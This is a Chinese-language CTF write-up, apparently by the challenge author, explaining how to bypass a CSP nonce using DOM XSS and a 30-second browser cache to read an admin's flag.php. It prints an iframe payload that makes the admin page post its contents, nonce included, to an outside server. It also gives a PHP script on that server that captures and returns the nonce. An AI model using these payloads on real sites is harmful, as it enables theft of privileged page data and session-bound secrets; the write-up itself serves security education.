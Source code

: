我不知道盲测这个漏洞是怎么测试的，但你可能需要一篇文章

[http://sirdarckcat.blogspot.jp/2016/12/how-to-bypass-csp-nonces-with-dom-xss.html](http://sirdarckcat.blogspot.jp/2016/12/how-to-bypass-csp-nonces-with-dom-xss.html)

文章中提到了一点，如果浏览器并没有请求后台，那么csp就不会刷新，那么怎么才能让它不刷新呢？浏览器缓存！

当服务端做出一部分配置的之后，如果页面内容不涉及到后台（仅涉及到前台的变化），那么浏览器就会从缓存中加载内容。

![image_1bd6e1i5k1m6a1dpf1bi0g5j186a9.png-16.6kB][4]

具体浏览器缓存的机制就不多解释了，我们发现后台开启了缓存机制，虽然只有30s，但是已然足够了。

这里其实思路就呼之欲出了，先iframe请求一次，然后解出nonce的值，添加到script的属性中，执行任意xss。

由于没有同源策略的拦截，所以出现了很多问题，类似于wupco的payload，但小m的和cola的是正解。

[https://pwnhub.cn/media/writeup/123/909db9f9-1bb4-4c5b-a697-b0fa223ed376_a599515c.pdf](https://pwnhub.cn/media/writeup/123/909db9f9-1bb4-4c5b-a697-b0fa223ed376_a599515c.pdf)

下面贴出，跨域情况下的处理方式以及payload，也是我出题的初衷。

根据前面文章中的poc，我们重新梳理试图读取flag.php的流程。

1、向admin发送payload，admin页面需要打开一个iframe目标为后台并输入一个form，用textrea吃掉页面内容

```
<iframe id="frame" src="http://127.0.0.1/xsstest_new/admin/#<form method='post' actioonn='http://115.28.78.16/noonnce.php'><input type='submit' value='test!'><textarea name='noonnce'>"></iframe>
```

由于我们需要接收到这部分信息，而且后台开启csp，无法发送跨域请求，所以在自己服务器构造nonce.php文件解析请求，返回nonce字符串。（nonce.php必须保证保存字符串，在之后的请求中返回，在原poc中，这里是通过session保留的，但是我在实际测试的时候遇到了问题，我改成了文件储存）

```
<?php
header("Access-Control-Allow-Origin:*");

$file = "result.txt";
if(!file_exists($file)){
	if(!empty($_POST)){
		$f = fopen($file, 'w+');
		$message = $_POST['nonce'];
		preg_match('/(nonce=\')\w+\'/', $message, $matches);
		$nonce_number = substr($matches[0], 7, -1);
		fwrite($f, $nonce_number);
		echo $nonce_number;
		fclose($f);
	}
}else{
	$f = fopen($file, 'r');
	echo fgets($f);
	fclose($f);
}
?>
```

2、我们需要不断请求nonce.php，并点击提交按钮，当返回有内容的时候，开启新的iframe标签，插入script标签，读取flag.php，以跳转的方式传出。


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/x456wiqarhtd85ufb6r67ulz/image_1be4da9901l902161muj1khor429.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/wffm5weehycndc8b9k2x0972/image_1bd65493j1oof1doj1ok152diqkm.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/0ta8ypvabn74fhcalpxb6gvt/image_1bd6582u5641h5c1g006k6r2f13.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/qvp6z81nzd85lx1l29kscv9p/image_1bd6e1i5k1m6a1dpf1bi0g5j186a9.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/zcafmqme8aujaxnmti8jsp4j/image_1be4dlo64vi3vtl1ee8hu31g8gm.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/80aqq62w7f7a2i21vqely76s/image_1be4e5g8q1pjk12714191vtp18ta13.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/xfrth6zizzzkdywwp25nm1kk/image_1bednb31n145c1shfa8cj41p7p9.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/6xp2ciyd1oavbswajjusl31z/image_1bednf0jr1t3oh4f1pqoqmm5cnm.png